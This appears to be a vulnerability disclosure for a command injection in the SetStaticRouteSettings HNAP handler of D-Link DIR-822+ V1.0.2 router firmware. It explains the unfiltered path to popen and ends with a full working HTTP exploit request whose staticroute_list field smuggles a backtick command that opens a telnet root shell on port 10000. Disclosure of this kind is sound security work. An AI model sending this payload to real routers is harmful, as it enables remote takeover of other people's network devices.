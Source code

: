 # DIR-822+ Command Injection
### Discoverer
Yangyi/HuoXingpeng
## Overview

D-Link DIR-822+ V1.0.2 was found to contain a command injection in `SetStaticRouteSettings` function.  allows remote attackers to execute arbitrary commands via shell

![image-20231221212125407](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221212125407.png)

![image-20231221212129179](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221212129179.png)

## Vulnerability details

![image-20231221214813987](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221214813987.png)

Use ’，‘ to segment data from the `staticroute list` and pass in the `sub_437028` function

![image-20231221214821593](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221214821593.png)

This part of the data was directly passed in `FCGI_popen` without any filtering

![image-20231221215626633](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221215626633.png)

`FCGI_popen`Called `popen` to create a pipeline to execute the command.

![image-20231221220509945](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220509945.png)

Based on the cause of the vulnerability, we only need to use commas to separate three addresses and the command to be executed. The final constructed EXP is as follows:

## EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 4EDFBBC3845CEF88B0CC7B5A5B9419EB 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Staticroute.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=VtVTeClk; PrivateKey=990D6EA08F8E8583354AD9D96CB35450; timeout=56
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"192.168.1.1,255.255.255.255,192.168.0.1,`telnetd -l /bin/sh -p 10000 -b 0.0.0.0`"}}
```

![image-20231221220640871](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220640871.png)

![image-20231221220705779](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220705779.png)
